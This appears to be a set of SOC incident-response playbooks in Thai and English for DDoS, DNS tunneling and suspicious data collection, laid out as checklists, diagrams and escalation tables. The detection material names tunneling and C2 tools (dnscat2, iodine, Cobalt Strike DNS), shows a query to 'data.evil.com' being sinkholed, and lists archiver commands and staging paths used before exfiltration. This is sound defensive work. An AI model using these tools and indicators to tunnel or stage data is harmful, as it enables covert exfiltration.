    Alert["🚨 DDoS Alert / บริการล่ม"] --> Type{"⚙️ ประเภทการโจมตี?"}
    Type -->|Volumetric| Vol["🌊 ปริมาณ Traffic สูง (UDP/ICMP)"]
    Type -->|Protocol| Proto["📦 SYN Flood / Amplification"]
    Type -->|Application L7| App["🌐 HTTP Flood / Slowloris"]
    Vol --> Upstream["📞 ติดต่อ ISP / CDN"]
    Proto --> Upstream
    App --> WAF["🛡️ WAF Mitigation"]
    Upstream --> Mitigate["🔒 เปิดใช้ DDoS Protection"]
    WAF --> Mitigate
```

---

## 1. การวิเคราะห์

### 1.1 การจำแนกประเภทการโจมตี

| ประเภท | วิธีการ | ตัวบ่งชี้ | ความรุนแรง |
|:---|:---|:---|:---|
| **Volumetric** | UDP flood, DNS amplification, NTP amplification | Bandwidth สูง (>10 Gbps) | 🔴 สูง |
| **Protocol** | SYN flood, Smurf, Fraggle | Connection state หมด | 🟠 สูง |
| **Application (L7)** | HTTP flood, Slowloris, RUDY | Request rate ผิดปกติ | 🟠 สูง |
| **Ransom DDoS** | Volumetric + จดหมายเรียกค่าไถ่ | อีเมลข่มขู่ก่อน/ระหว่างโจมตี | 🔴 วิกฤต |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ปริมาณ traffic (Gbps/Mpps) | Netflow / CDN dashboard | ☐ |
| IP ต้นทาง — เดียวหรือกระจาย (botnet)? | Netflow analysis | ☐ |
| บริการที่ได้รับผลกระทบ | Monitoring / Users | ☐ |
| ระยะเวลาการโจมตี | Timeline analysis | ☐ |
| มีจดหมายเรียกค่าไถ่ (RDoS)? | อีเมล / Abuse contact | ☐ |
| เป็นควันบังตา (cover) สำหรับการโจมตีอื่น? | SIEM — ตรวจเหตุการณ์อื่นพร้อมกัน | ☐ |

### 1.3 การประเมินผลกระทบ

| บริการ | สถานะ | ผลกระทบทางธุรกิจ | ลำดับสำคัญ |
|:---|:---|:---|:---|
| เว็บไซต์หลัก | ☐ ปกติ ☐ ช้า ☐ ล่ม | | |
| API | ☐ ปกติ ☐ ช้า ☐ ล่ม | | |
| อีเมล | ☐ ปกติ ☐ ช้า ☐ ล่ม | | |
| VPN | ☐ ปกติ ☐ ช้า ☐ ล่ม | | |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **เปิด DDoS protection** (AWS Shield, Azure DDoS, Cloudflare) | CDN / Cloud | ☐ |
| 2 | **เพิ่ม rate limiting** | CDN / WAF | ☐ |
| 3 | **GeoIP block** ประเทศที่ไม่เกี่ยวข้อง | Firewall / CDN | ☐ |
| 4 | **Blackhole routing** สำหรับ IP ต้นทาง (volumetric) | ISP / Router | ☐ |
| 5 | **ติดต่อ ISP** เพื่อ upstream filtering | โทรศัพท์ | ☐ |

### 2.2 กรณี Application Layer (L7)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เปิด CAPTCHA / JavaScript challenge | ☐ |
| 2 | WAF rules สำหรับ bot detection | ☐ |
| 3 | ปรับ connection timeouts | ☐ |
| 4 | เพิ่ม Auto-scaling (cloud) | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | วิเคราะห์ traffic เพื่อระบุ botnet C2 | ☐ |
| 2 | อัปเดต blocklist ด้วย IP ต้นทาง | ☐ |
| 3 | หากควันบังตา → ตรวจสอบเหตุการณ์อื่นที่เกิดพร้อมกัน | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | คืนสถานะบริการทีละขั้นตอน | ☐ |
| 2 | Deploy DDoS protection ถาวร (Always-on) | ☐ |
| 3 | ทดสอบ DDoS readiness | ☐ |
| 4 | จัดทำ DDoS runbook เฉพาะบริการ | ☐ |
| 5 | ติดตาม 72 ชั่วโมง | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| บริการลูกค้าล่มเกิน 30 นาที | SOC Lead + Business |
| Ransom DDoS (จดหมายข่มขู่) | Legal + CISO + Law Enforcement |
| DDoS เป็นควันบังตาสำหรับการโจมตีอื่น | Major Incident |
| การโจมตีเกิน 24 ชม. | CISO + ISP escalation |
| ISP ไม่สามารถ mitigate ได้ | CDN vendor + Executive |

---

### ผัง DDoS Mitigation Tiers

```mermaid
graph TD
    Attack["💥 DDoS"] --> L3["🔒 L3/L4: ISP null route"]
    Attack --> L7["🛡️ L7: WAF + rate limit"]
    L3 --> CDN["☁️ CDN absorption"]
    L7 --> CDN
    CDN --> Origin["🖥️ Origin protected"]
    Origin --> Monitor["📊 Monitor recovery"]
    style Attack fill:#e74c3c,color:#fff
    style CDN fill:#27ae60,color:#fff
```

### ผัง ISP Coordination

```mermaid
sequenceDiagram
    participant SOC
    participant ISP
    participant CDN
    participant Management
    SOC->>ISP: 🚨 DDoS 50Gbps — request scrubbing
    ISP->>ISP: Activate scrubbing center
    ISP-->>SOC: ✅ Scrubbing active
    SOC->>CDN: Increase capacity
    CDN-->>SOC: ✅ Auto-scaling
    SOC->>Management: Update: mitigated
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| High Web Request Rate from Single IP | [web_high_rate_limit.yml](../../08_Detection_Engineering/sigma_rules/web_high_rate_limit.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [บันทึกการส่งมอบกะ](../../11_Reporting_Templates/shift_handover.th.md)

## DDoS Attack Classification

| Type | Layer | Volume | Mitigation |
|:---|:---|:---|:---|
| Volumetric | L3/L4 | > 10 Gbps | ISP scrubbing |
| Protocol | L3/L4 | SYN/UDP flood | Rate limiting |
| Application | L7 | HTTP flood | WAF + CAPTCHA |
| Amplification | L3 | DNS/NTP reflect | BCP38 filtering |

### DDoS Response Escalation

| Severity | Impact | Response | Contact |
|:---|:---|:---|:---|
| Low | < 50% capacity | Monitor | SOC |
| Medium | 50-80% capacity | Activate mitigation | SOC + NOC |
| High | > 80% capacity | ISP scrubbing | NOC + ISP |
| Critical | Service down | Full response | All + Management |

### Mitigation Activation Checklist
- [ ] Enable DDoS protection (CDN/WAF)
- [ ] Contact ISP for upstream filtering
- [ ] Activate geo-blocking if applicable
- [ ] Scale infrastructure if cloud-based
- [ ] Enable rate limiting on all edges

### Post-Attack Review

| Question | Owner |
|:---|:---|
| Attack source identified? | SOC |
| ISP response adequate? | NOC |
| Mitigation effective? | Security |
| Customer impact assessed? | Business |

## อ้างอิง

- [MITRE ATT&CK T1498 — Network Denial of Service](https://attack.mitre.org/techniques/T1498/)
- [CISA — DDoS Quick Guide](https://www.cisa.gov/sites/default/files/publications/DDoS%20Quick%20Guide.pdf)


---

## File: 05_Incident_Response/Playbooks/DNS_Tunneling.en.md

# Playbook: DNS Tunneling Response

**ID**: PB-25
**Severity**: High | **Category**: Data Exfiltration / C2
**MITRE ATT&CK**: [T1071.004](https://attack.mitre.org/techniques/T1071/004/) (Application Layer Protocol: DNS), [T1048.003](https://attack.mitre.org/techniques/T1048/003/) (Exfiltration Over Alternative Protocol)
**Trigger**: DNS anomaly detection (high entropy queries), SIEM correlation, DNS firewall alert, UEBA baseline deviation

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Anomalous DNS Activity"] --> Type{"🔍 Anomaly Type?"}
    Type -->|High Entropy Subdomains| Entropy["🔤 Base64/Hex in Queries"]
    Type -->|Excessive Volume to One Domain| Volume["📊 Query Volume Spike"]
    Type -->|Large TXT/NULL Records| TXT["📦 Payload in Responses"]
    Type -->|NXDOMAIN Flood| NX["❌ Data in Failed Queries"]
    Entropy --> Host["🖥️ Identify Source Host"]
    Volume --> Host
    TXT --> Host
    NX --> Host
    Host --> Process["⚙️ Identify Process Making Queries"]
    Process -->|Known Tool: iodine/dnscat2/dns2tcp| Confirmed["🔴 DNS Tunnel Confirmed"]
    Process -->|Unknown Process| TI["🔍 Check Domain vs TI"]
    TI -->|Malicious / Newly Registered| Confirmed
    TI -->|Legitimate CDN/Cloud| FP["✅ False Positive"]
    Confirmed --> Purpose{"📡 Purpose?"}
    Purpose -->|C2 Channel| C2["🔴 Active C2"]
    Purpose -->|Data Exfiltration| Exfil["🔴 Data Leaving"]
    C2 --> Block["🔒 Sinkhole + Isolate"]
    Exfil --> Block
```

---

## 1. Analysis

### 1.1 Known DNS Tunneling Tools

| Tool | Protocol | Indicators |
|:---|:---|:---|
| **iodine** | NULL / CNAME | Long A/AAAA subdomains, `topdns.xyz` |
| **dnscat2** | TXT / CNAME | High-entropy subdomains, session IDs |
| **dns2tcp** | TXT | Base64 encoded subdomains |
| **Cobalt Strike DNS** | A / AAAA / TXT | Short polling queries, beacon pattern |
| **Custom malware** | Various | Varies — look for patterns |

### 1.2 DNS Anomaly Indicators

| Indicator | Normal | Suspicious | Detection |
|:---|:---|:---|:---|
| **Subdomain length** | < 30 chars | > 50 chars, looks random | DNS log analysis |
| **Query volume to single domain** | < 100/hr | > 1000/hr | SIEM threshold |
| **TXT record response size** | < 200 bytes | > 500 bytes | DNS log analysis |
| **NXDOMAIN ratio** | < 5% | > 30% | SIEM baseline |
| **Query entropy** | Low (readable) | High (Base64/hex) | Shannon entropy calc |
| **Domain registration age** | > 1 year | < 30 days | WHOIS |
| **Unique subdomains** | Few (www, mail) | Thousands of unique | DNS log aggregation |

### 1.3 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Source host generating DNS queries | DNS server logs / EDR | ☐ |
| Process responsible for queries | EDR Sysmon Event ID 22 | ☐ |
| Destination domain — who owns it? | WHOIS, VirusTotal | ☐ |
| Domain age — newly registered? | WHOIS | ☐ |
| Query payload analysis (decode Base64/hex) | CyberChef, manual | ☐ |
| Volume of data potentially exfiltrated | Query count × avg payload | ☐ |
| Is direct DNS (port 53) to external used? | Firewall logs | ☐ |
| Other hosts querying same domain? | DNS log search | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Sinkhole** the tunneling domain | DNS server / RPZ | ☐ |
| 2 | **Isolate** the source host | EDR / Network | ☐ |
| 3 | **Block** the domain at DNS filtering (Umbrella, CF Gateway) | DNS proxy | ☐ |
| 4 | **Block direct DNS** — force all DNS through corporate resolvers | Firewall: block outbound 53/853 except approved | ☐ |

### 2.2 If C2 Channel

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Check for additional implants on the host | ☐ |
| 2 | Escalate to [PB-13 C2 Communication](C2_Communication.en.md) | ☐ |
| 3 | Search for same C2 domain across all DNS logs | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove DNS tunneling tool / malware from host | ☐ |
| 2 | Remove persistence mechanisms | ☐ |
| 3 | Reset credentials for accounts on compromised host | ☐ |
| 4 | Full AV/EDR scan | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Rebuild / restore host from known-good backup | ☐ |
| 2 | Implement DNS monitoring and Response Policy Zones (RPZ) | ☐ |
| 3 | Route ALL DNS through filtering resolver | ☐ |
| 4 | Block direct DNS (53/853) to external at firewall | ☐ |
| 5 | Enable full DNS query logging → SIEM | ☐ |
| 6 | Add detection rules (high-entropy, excessive NXDOMAIN, TXT size) | ☐ |
| 7 | Monitor for 72 hours | ☐ |

### DNS Tunnel Detection

```mermaid
graph LR
    DNS["📡 DNS Query"] --> Analyze{"🔍 Analyze"}
    Analyze -->|High entropy| Suspect["🟠 Suspicious"]
    Analyze -->|Query >50 chars| Suspect
    Analyze -->|Excessive TXT| Suspect
    Analyze -->|Many NXDOMAIN| Suspect
    Suspect --> Correlate["🔗 Correlate: host + process"]
    Correlate --> Confirm["🔴 Confirmed Tunnel"]
    style DNS fill:#3498db,color:#fff
    style Suspect fill:#f39c12,color:#fff
    style Confirm fill:#e74c3c,color:#fff
```

### RPZ Sinkhole Flow

```mermaid
sequenceDiagram
    participant Host
    participant DNS as DNS Resolver
    participant RPZ as RPZ Zone
    participant SOC
    Host->>DNS: query: data.evil.com
    DNS->>RPZ: Check RPZ policy
    RPZ-->>DNS: NXDOMAIN (blocked!)
    DNS-->>Host: NXDOMAIN
    RPZ->>SOC: 📋 Log blocked query
    SOC->>SOC: Identify infected host
```

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Tunneling domain | | DNS logs |
| Domain registrant | | WHOIS |
| Source host | | DNS server / EDR |
| Process name / hash | | EDR |
| Decoded payload samples | | DNS analysis |
| Data volume exfiltrated (estimate) | | Query analysis |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Active C2 via DNS | [PB-13 C2](C2_Communication.en.md) + Tier 2 |
| Sensitive data exfiltrated | [PB-08 Data Exfiltration](Data_Exfiltration.en.md) + Legal |
| Multiple hosts using same tunnel domain | Major Incident |
| Direct DNS bypassing corporate resolvers | Network team urgently |
| Cobalt Strike DNS beacon | Tier 2 + Threat Hunt |
| PII in exfiltrated data | DPO (PDPA 72h) |

---

### DNS Security Architecture

```mermaid
graph LR
    Client["💻 Client"] --> Internal["🔤 Internal DNS"]
    Internal --> RPZ["🛡️ RPZ Filter"]
    RPZ -->|Block| Sinkhole["🕳️ Sinkhole"]
    RPZ -->|Allow| Upstream["🌐 Upstream DNS"]
    Upstream --> DoH["🔒 DoH/DoT"]
    style RPZ fill:#27ae60,color:#fff
    style Sinkhole fill:#e74c3c,color:#fff
```

### DNS-based C2 Indicators

```mermaid
graph TD
    Indicator["🔍 DNS Indicator"] --> Length["📏 Query > 50 chars"]
    Indicator --> Entropy["🎲 High entropy"]
    Indicator --> Volume["📊 High NXDomain"]
    Indicator --> TXT["📝 Large TXT responses"]
    Length --> Score["⚠️ Risk Score"]
    Entropy --> Score
    Volume --> Score
    TXT --> Score
    Score --> Alert["🚨 SOC Alert"]
    style Alert fill:#e74c3c,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| DNS Tunneling Detection | [net_dns_tunneling.yml](../../08_Detection_Engineering/sigma_rules/net_dns_tunneling.yml) |
| Network Beaconing Pattern | [net_beaconing.yml](../../08_Detection_Engineering/sigma_rules/net_beaconing.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [PB-13 C2 Communication](C2_Communication.en.md)

## References

- [MITRE ATT&CK T1071.004 — Application Layer Protocol: DNS](https://attack.mitre.org/techniques/T1071/004/)
- [MITRE ATT&CK T1048.003 — Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/003/)
- [SANS — Detecting DNS Tunneling](https://www.sans.org/white-papers/detecting-dns-tunneling/)
- [Infoblox — DNS Tunneling Detection](https://www.infoblox.com/dns-security-resource-center/dns-tunneling/)


---

## File: 05_Incident_Response/Playbooks/DNS_Tunneling.th.md

# Playbook: DNS Tunneling

**ID**: PB-25
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: เครือข่าย / การนำข้อมูลออก
**MITRE ATT&CK**: [T1071.004](https://attack.mitre.org/techniques/T1071/004/) (Application Layer Protocol: DNS)
**ทริกเกอร์**: DNS analytics alert (high entropy), SIEM (excessive NXDOMAIN/TXT), IDS/IPS signature


## หลังเหตุการณ์ (Post-Incident)

- [ ] บล็อก DNS-over-HTTPS endpoints ที่ไม่ได้รับอนุญาต
- [ ] ใช้ DNS sinkholing สำหรับ C2 domains
- [ ] ทบทวน DNS inspection coverage
- [ ] สร้าง detection rule สำหรับ high-entropy DNS queries
- [ ] ใช้ DNS logging เฝ้าระวังอย่างต่อเนื่อง
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการตรวจจับ DNS Tunneling

```mermaid
graph LR
    DNS["📡 DNS Query"] --> Analyze{"🔍 วิเคราะห์"}
    Analyze -->|Entropy สูง| Suspect["🟠 น่าสงสัย"]
    Analyze -->|Query ยาว >50 char| Suspect
    Analyze -->|TXT record มาก| Suspect
    Analyze -->|NXDOMAIN มาก| Suspect
    Suspect --> Correlate["🔗 Correlate: host + process"]
    Correlate --> Confirm["🔴 ยืนยัน Tunnel"]
    style DNS fill:#3498db,color:#fff
    style Suspect fill:#f39c12,color:#fff
    style Confirm fill:#e74c3c,color:#fff
```

### ผังขั้นตอน RPZ Sinkhole

```mermaid
sequenceDiagram
    participant Host
    participant DNS as DNS Resolver
    participant RPZ as RPZ Zone
    participant SOC
    Host->>DNS: query: data.evil.com
    DNS->>RPZ: ตรวจ RPZ policy
    RPZ-->>DNS: NXDOMAIN (blocked!)
    DNS-->>Host: NXDOMAIN
    RPZ->>SOC: 📋 Log blocked query
    SOC->>SOC: ระบุ infected host
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 DNS ผิดปกติ"] --> Indicator{"📊 ตัวบ่งชี้?"}
    Indicator -->|Entropy สูง| Entropy["🔤 Subdomain ยาว/สุ่ม"]
    Indicator -->|Query rate สูง| Volume["📈 ปริมาณสูงผิดปกติ"]
    Indicator -->|TXT/NULL สูง| Type["📋 Record type ผิดปกติ"]
    Entropy --> Domain["🌐 ระบุ Tunnel Domain"]
    Volume --> Domain
    Type --> Domain
    Domain --> Tool{"🔧 เครื่องมือ?"}
    Tool -->|iodine/dnscat2| Known["✅ Known Tool"]
    Tool -->|Custom/Cobalt Strike| APT["🔴 APT Indicator"]
```

---

## 1. การวิเคราะห์

### 1.1 ตัวบ่งชี้ DNS Tunneling

| ตัวบ่งชี้ | ค่าปกติ | ค่าน่าสงสัย | การตรวจจับ |
|:---|:---|:---|:---|
| **Subdomain length** | < 30 chars | > 50 chars | DNS analytics |
| **Shannon entropy** | < 3.5 | > 4.0 | DNS analytics |
| **Query rate** (single domain) | < 10/min | > 100/min | SIEM |
| **TXT query volume** | ต่ำ | สูงผิดปกติ | DNS logs |
| **NULL/CNAME unusual** | น้อย | มาก | DNS logs |
| **Domain จดทะเบียนใหม่** | — | < 30 วัน | WHOIS / TI |
| **Non-cached queries** | ปกติ | 100% non-cached | DNS resolver | 

### 1.2 เครื่องมือ DNS Tunnel ที่รู้จัก

| เครื่องมือ | ลักษณะ | ความรุนแรง |
|:---|:---|:---|
| **iodine** | IP-over-DNS, NULL records | 🟠 สูง |
| **dnscat2** | Encrypted C2, TXT records | 🔴 สูง |
| **DNSExfiltrator** | Data exfil, TXT/CNAME | 🔴 สูง |
| **Cobalt Strike DNS** | Beacon over DNS | 🔴 วิกฤต |
| **SUNBURST** | SolarWinds, CNAME | 🔴 วิกฤต (APT) |

### 1.3 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Domain ที่ใช้ tunnel | DNS logs / analytics | ☐ |
| Source host(s) | DNS query logs | ☐ |
| Process ที่ทำ DNS queries | EDR (Sysmon Event 22) | ☐ |
| ปริมาณข้อมูลที่ส่งออก (ประมาณ) | Query volume × payload size | ☐ |
| Domain ลงทะเบียนเมื่อไหร่? | WHOIS | ☐ |
| มี host อื่นติดต่อ domain เดียวกัน? | SIEM pivot | ☐ |
| ข้อมูลอะไรถูกส่งออก? (decode payload) | Base32/Base64 decode | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Block** tunnel domain → DNS RPZ / Sinkhole | DNS server | ☐ |
| 2 | **Isolate** source host | EDR / Network | ☐ |
| 3 | **Kill** tunnel process | EDR | ☐ |
| 4 | **Block** DoH/DoT ไปยัง external resolvers | Firewall | ☐ |
| 5 | ค้นหา host อื่นที่ query domain เดียวกัน | SIEM | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ DNS tunnel tool จาก host | ☐ |
| 2 | ลบ persistence (scheduled task, startup) | ☐ |
| 3 | หมุนเวียน credentials ที่อาจถูกส่งออก | ☐ |
| 4 | ตรวจ malware อื่นบน host (EDR full scan) | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **บังคับ DNS ภายในเท่านั้น** (block outbound 53/UDP ไม่ผ่าน resolver) | ☐ |
| 2 | **Block DoH/DoT** ไปยัง external providers (8.8.8.8, 1.1.1.1) | ☐ |
| 3 | เปิด **DNS analytics** / DNS firewall | ☐ |
| 4 | ตั้ง threshold alerts สำหรับ entropy > 4.0 | ☐ |
| 5 | ติดตาม 30 วัน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Data exfiltration ยืนยัน | [PB-08 Data Exfiltration](Data_Exfiltration.th.md) + Legal |
| C2 over DNS (Cobalt Strike / APT) | [PB-13 C2](C2_Communication.th.md) + Threat Hunt |
| SUNBURST / nation-state indicators | CISO + Law Enforcement |
| หลาย host ใช้ tunnel เดียวกัน | Major Incident |

---

### ผัง DNS Security Architecture

```mermaid
graph LR
    Client["💻 Client"] --> Internal["🔤 Internal DNS"]
    Internal --> RPZ["🛡️ RPZ Filter"]
    RPZ -->|Block| Sinkhole["🕳️ Sinkhole"]
    RPZ -->|Allow| Upstream["🌐 Upstream DNS"]
    Upstream --> DoH["🔒 DoH/DoT"]
    style RPZ fill:#27ae60,color:#fff
    style Sinkhole fill:#e74c3c,color:#fff
```

### ผัง DNS-based C2 Indicators

```mermaid
graph TD
    Indicator["🔍 DNS Indicator"] --> Length["📏 Query > 50 chars"]
    Indicator --> Entropy["🎲 High entropy"]
    Indicator --> Volume["📊 High NXDomain"]
    Indicator --> TXT["📝 Large TXT responses"]
    Length --> Score["⚠️ Risk Score"]
    Entropy --> Score
    Volume --> Score
    TXT --> Score
    Score --> Alert["🚨 SOC Alert"]
    style Alert fill:#e74c3c,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| DNS Tunneling Detection | [net_dns_tunneling.yml](../../08_Detection_Engineering/sigma_rules/net_dns_tunneling.yml) |
| Network Beaconing Pattern | [net_beaconing.yml](../../08_Detection_Engineering/sigma_rules/net_beaconing.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-13 C2 Communication](C2_Communication.th.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.th.md)

## DNS Tunneling Detection Indicators

| Indicator | Normal | Suspicious | Threshold |
|:---|:---|:---|:---|
| Query length | < 30 chars | > 50 chars | Alert > 60 |
| Subdomain depth | 1-3 levels | > 5 levels | Alert > 4 |
| Query entropy | < 3.0 | > 3.5 | Alert > 3.5 |
| TXT record volume | < 5/hr | > 50/hr | Alert > 20 |
| NXDOMAIN ratio | < 5% | > 30% | Alert > 20% |

### DNS Analysis Tools

| Tool | Purpose | Usage |
|:---|:---|:---|
| dns2tcp | Detect tunneling | Monitor traffic |
| Passive DNS | Historical lookup | Investigate domains |
| Zeek dns.log | Log analysis | Query forensics |
| DNScat2 detection | Known tool fingerprint | Signature match |

### Containment Checklist

| Action | Priority |
|:---|:---|
| Block malicious domain | Immediate |
| Sinkhole DNS queries | Immediate |
| Isolate source host | 15 min |
| Scan for additional hosts | 1 hr |

## อ้างอิง

- [MITRE ATT&CK T1071.004 — DNS](https://attack.mitre.org/techniques/T1071/004/)
- [SANS — Detecting DNS Tunneling](https://www.sans.org/white-papers/detecting-dns-tunneling/)


---

## File: 05_Incident_Response/Playbooks/Data_Collection.en.md

# Playbook PB-35: Suspicious Data Collection

**Severity**: High | **Category**: Collection | **MITRE**: T1560, T1119, T1115, T1074, T1213, T1005

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Data Collection Alert"] --> Auth{"👤 Authorized?"}
    Auth -->|Normal role| Close["✅ Close"]
    Auth -->|Unusual| Volume{"📊 Volume?"}
    Volume -->|Normal| Monitor["👁️ Monitor 48h"]
    Volume -->|Excessive| Escalate["🔴 Escalate Tier 2"]
    Escalate --> Contain["🔌 Isolate + Investigate"]
```

### Data Staging Process

```mermaid
graph LR
    Collect["📁 Collect Files"] --> Archive["📦 Archive"]
    Archive --> Stage["📂 Staging Dir"]
    Stage --> Method{"📡 Exfil Method?"}
    Method -->|Web| Cloud["☁️ Cloud Upload"]
    Method -->|USB| USB["💾 Removable"]
    Method -->|Email| Mail["📧 Email"]
    style Collect fill:#3498db,color:#fff
    style Stage fill:#f39c12,color:#fff
    style Cloud fill:#e74c3c,color:#fff
```

### UEBA Detection Sequence

```mermaid
sequenceDiagram
    participant User
    participant DLP
    participant UEBA
    participant SOC
    User->>DLP: Access 500+ files
    DLP->>UEBA: Volume anomaly
    UEBA->>UEBA: Compare baseline
    UEBA->>SOC: 🚨 Risk score exceeded
    SOC->>SOC: Review data type + user role
    SOC->>DLP: Block further access
```

## Description

An attacker gathers sensitive data from within the environment before exfiltration. This includes staging files in temporary directories, accessing SharePoint/OneDrive, archiving data with compression tools, clipboard capture, and automated collection scripts. Collection is a precursor to exfiltration and indicates the attacker has achieved their objective access.

## Detection Sources

| Source | Alert Examples |
|:---|:---|
| **EDR** | Suspicious archiver usage (7z, rar, zip from temp dirs), data staging |
| **SIEM** | Bulk file access, unusual SharePoint/OneDrive downloads |
| **DLP** | Sensitive data in archives, clipboard monitoring alerts |
| **Cloud** | Mass document downloads from Teams/SharePoint/Google Drive |
| **Network** | Large internal data transfers, staging to file shares |

## Triage Checklist

| # | Step | Action |
|:---:|:---|:---|
| 1 | **Identify the user** | Who is collecting data? Authorized role? |
| 2 | **Check data type** | What files/data are being accessed? Sensitive? Classified? |
| 3 | **Volume** | How much data? Unusual volume for this user/role? |
| 4 | **Staging** | Are files being copied to temp directories, USB, or cloud? |
| 5 | **Tools** | Compression tools used? (7z, rar, WinRAR, tar with password) |
| 6 | **Timeline** | Does this correlate with discovery or credential access alerts? |

## Response Actions

### Tier 1

1. Document the user, files accessed, volume, and destination
2. Check if user's role justifies the data access pattern
3. If unauthorized volume/type → Escalate to Tier 2

### Tier 2

4. Review full file access history for the user (past 30 days)
5. Check for preceding compromise indicators
6. Investigate staging locations (temp dirs, file shares, cloud storage)
7. If confirmed malicious:
   - **Isolate** the source host
   - **Revoke** cloud/file share access
   - **Preserve** staging artifacts for forensics
   - **Block** egress for the source IP

### Tier 3

8. Full forensic analysis of staging directories
9. Analyze archives for content classification
10. Assess data breach scope — what data was collected?
11. Coordinate with Legal if PII/sensitive data involved
12. Update DLP rules to detect similar patterns

## Containment

| Action | Method | Approval |
|:---|:---|:---|
| Isolate source host | EDR network isolation | SOC Lead |
| Revoke access | SharePoint/OneDrive/IAM | SOC Lead |
| Block egress | Firewall rules for source IP | SOC Lead + Network |
| Preserve evidence | Forensic image of staging location | IR Lead |
| Disable auto-forward rules | Exchange admin / Google admin | SOC Lead |

## Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove staging archives and temp files | ☐ |
| 2 | Delete archiving tools not part of baseline | ☐ |
| 3 | Remove unauthorized scripts (PowerShell, Python) | ☐ |
| 4 | Clear scheduled tasks created for data collection | ☐ |
| 5 | Revoke OAuth tokens used for cloud access | ☐ |
| 6 | Remove malicious email forwarding rules | ☐ |

## IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Source host / IP | | EDR / SIEM |
| User account | | AD / IAM logs |
| Archive file name | | File system / DLP |
| Archive hash (SHA256) | | Forensic analysis |
| Staging directory path | | EDR telemetry |
| Destination (upload URL / email) | | Proxy / email logs |
| Volume of data collected (MB/GB) | | DLP / Cloud audit |
| Tools used | | Process logs |

## Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| PII / customer data in staging archive | Legal + DPO (PDPA) |
| > 1 GB of data archived/staged | SOC Lead + IR |
| Source code or trade secrets identified | CISO + Legal |
| Collection followed by confirmed exfiltration | Tier 3 + CISO |
| Multiple departments' data accessed | SOC Manager + Data Owners |
| Executive/C-level data targeted | CISO + CEO |

## Recovery

- [ ] Restore any files inadvertently deleted during containment
- [ ] Re-enable user account after credential reset and access review
- [ ] Verify DLP policies properly cover staging paths
- [ ] Confirm no data reached external destinations
- [ ] Review and re-baseline file access permissions
- [ ] Re-enable disabled services after threat is removed

## Post-Incident

- [ ] Update DLP rules with new staging path patterns observed
- [ ] Add file archiver monitoring to EDR policy
- [ ] Conduct user access review for affected data repositories
- [ ] Create Sigma rule for bulk file access patterns
- [ ] Review data classification labels for affected data
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

## Key Indicators

| Indicator | Example |
|:---|:---|
| **Archiver Tools** | `7z a -p`, `rar a -hp`, `tar -czf`, `Compress-Archive` (PowerShell) |
| **Staging Paths** | `C:\Temp\`, `C:\Users\Public\`, `/tmp/`, `%APPDATA%\Temp\` |
| **Bulk Access** | 100+ files accessed in < 10 min, SharePoint bulk download |
| **Cloud** | OneDrive sync of entire department folder, Google Takeout |
| **Clipboard** | Clipboard capture tools, screen recording software |
| **Email** | Mass email forwarding rules, auto-forward to external addresses |

## Data Classification Impact

| Data Type | Risk | Notification |
|:---|:---|:---|
| **PII (General)** | High | DPO within 72 hours |
| **PII (Sensitive)** | Critical | DPO immediately, PDPC notification |
| **Financial** | High | CFO, Legal |
| **Trade Secrets** | Critical | CEO, Legal |
| **Source Code** | High | CTO, Engineering Lead |

### DLP Architecture

```mermaid
graph LR
    Endpoint["💻 Endpoint DLP"] --> SIEM["📊 SIEM"]
    Network["🌐 Network DLP"] --> SIEM
